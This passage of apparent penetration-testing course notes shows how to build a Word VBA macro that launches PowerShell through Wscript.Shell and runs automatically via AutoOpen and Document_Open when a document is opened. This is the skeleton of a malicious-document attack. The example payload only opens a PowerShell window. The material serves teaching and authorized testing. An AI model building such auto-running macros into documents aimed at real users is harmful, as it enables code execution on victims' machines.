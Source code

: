 At this point, our new macro, _MyMacro()_, is simply an empty sub procedure containing several lines beginning with an apostrophe, which marks the start of a single-line comment in VBA
``` VBA
Sub MyMacro()
'
' MyMacro Macro
'
'

End Sub
```


In this example, we'll leverage _ActiveX Objects_, which provide access to underlying operating system commands
+ This can be achieved with _WScript_ through the _Windows Script Host Shell object_

Once we instantiate a Windows Script Host Shell object with _CreateObject_, we can invoke the _Run_ method for _Wscript.Shell_ in order to launch an application on the target client machine
+ For our first macro, we'll start a PowerShell window. The code for that macro is shown below
``` VBA
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

Since Office macros are not executed automatically, we must use the predefined _AutoOpen_ macro and _Document_Open_ event
+ These procedures can call our custom procedure and run our code when a Word document is opened
+ They differ slightly, depending on how Microsoft Word and the document were opened
+ Both cover special cases which the other one doesn't and therefore we use both
+ Our updated VBA code is shown below:
``` VBA
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```
